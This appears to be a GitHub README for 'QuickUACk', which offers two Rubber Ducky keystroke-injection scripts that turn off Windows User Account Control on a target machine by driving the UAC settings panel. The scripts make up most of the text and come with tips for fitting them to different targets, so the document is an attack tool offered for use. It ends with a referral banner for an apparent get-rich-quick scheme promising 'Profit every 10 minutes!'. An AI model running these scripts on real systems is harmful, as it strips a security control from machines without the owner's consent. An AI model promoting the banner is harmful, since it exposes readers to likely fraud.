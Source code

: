 # QuickUACk!
Some of my antiUAC Scripts for Rubbber Ducky.

</BR>

![alt text](https://media1.giphy.com/media/aQrYT4WVN55aU/giphy.gif)

</BR>


A pair of fast solutions to disable UAC (User Account Control) 
</BR>
it works on all windows version 32 and 64 bits with uac (Vista or Earlier) 
</BR>
and are valid for all languages (Latin, of course).
</BR>

The scripts were created with the Italian keyboard, 
</BR>
so I do not exclude that in some cases they require minor adjustments.
</BR>
if the target machine is old, I recommend extending the delay time.

</BR>

Ver 1.0 uses a .exe application from the C: \ Windows \ System32 (system protected) folder, 
</BR>
to start the uac on-screen control and switch to the uac panel.
</BR>
the C: \ Windows \ SysWOW64 folder for the purpose or other protected system folders that contain exe are also fine.
</BR>
Several applications contained in System32 are good, but be careful because there are some exceptions.
</BR>
You can consult this list to see the applications that are whitelisted by default on W7 
</BR>
and therefore  do not require uac checking to be performed:
</BR>

https://books.google.it/books?id=1EXt2U84WZ0C&pg=PA278&lpg=PA278&dq=AdapterTroubleshooter.exe&source=bl&ots=sWxJuFdZdU&sig=OhOUJ9gzJxfLb4jlJPiuZyP2F-U&hl=it&sa=X&ved=0ahUKEwi37qe0_fvaAhWMyqYKHWz8CWQQ6AEIcDAN#v=onepage&q=AdapterTroubleshooter.exe&f=false

</BR>

![alt text](https://i.imgur.com/3k9YWzZ.gif)

</BR>

@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@


QuickUACk Ver. 1.0

DELAY 2000
</BR>
CTRL ESC
</BR>
DELAY 200
</BR>
REM C:\Windows\System32\AdapterTroubleshooter.exe"
</BR>
REM work on windows version 32 and 64 bit (Vista or Earlier)
</BR>
REM no reboot is required for disabling 
</BR>
STRING AdapterTroubleshooter
</BR>
DELAY 200
</BR>
ENTER
</BR>
DELAY 200
</BR>
TAB
</BR>
DELAY 200
</BR>
ENTER
</BR>
DELAY 200
</BR>
DOWNARROW
</BR>
DOWNARROW
</BR>
DOWNARROW
</BR>
DOWNARROW
</BR>
DELAY 200
</BR>
TAB
</BR>
DELAY 200
</BR>
ENTER
</BR>
DELAY 200
</BR>
LEFTARROW
</BR>
DELAY 200
</BR>
ENTER
</BR>

-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-



QuickUACk Ver. 2.0

DELAY 2000
</BR>
CTRL ESC
</BR>
DELAY 200
</BR>
REM opens directly the User Account Control Panel 
</BR>
REM work on all windows version 32 and 64 bit with uac (Vista or Earlier)
</BR>
REM no reboot is required for disabling
</BR>
STRING UAC
</BR>
DELAY 200
</BR>
ENTER
</BR>
DELAY 200
</BR>
LEFTARROW
</BR>
DELAY 200
</BR>
ENTER
</BR>
DELAY 200
</BR>
DOWNARROW
</BR>
DOWNARROW
</BR>
DOWNARROW
</BR>
DOWNARROW
</BR>
DELAY 200
</BR>
TAB
</BR>
DELAY 200
</BR>
ENTER
</BR>
DELAY 200
</BR>
LEFTARROW
</BR>
DELAY 200
</BR>
ENTER

</BR>

@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@


</BR>



</BR>

<a href="https://golden-farm.biz/?r=1673249" target="_blank">
<img src="https://golden-farm.biz/images/promo/en/728x90.gif"
alt="Profit every 10 minutes!"></a>



